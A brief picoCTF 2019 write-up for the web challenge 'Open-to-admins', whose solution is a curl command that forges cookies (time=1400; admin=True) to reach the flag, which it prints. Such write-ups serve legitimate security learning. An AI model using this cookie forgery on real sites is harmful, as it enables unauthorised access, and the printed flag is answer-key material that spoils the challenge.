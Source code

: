 ```yaml
---
title: "Open-to-admins"
categories:
  - picoCTF-2019
tags:
  - picoCTF
  - picoCTF-2019
  - web exploitation
---
```


Problem: This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/47265/ (link) or http://2019shell1.picoctf.com:47265

Solution: You need to get the info at exactly 1400 so set the header using curl.

```
curl "https://2019shell1.picoctf.com/problem/12276/flag" -H "Cookie: time=1400; admin=True;"
```

![no-alignment]({{ '/picoCTF-2019/solution-files/open-to-admins.jpg' | absolute_url }})


Flag: ```picoCTF{0p3n_t0_adm1n5_dcb566bb}```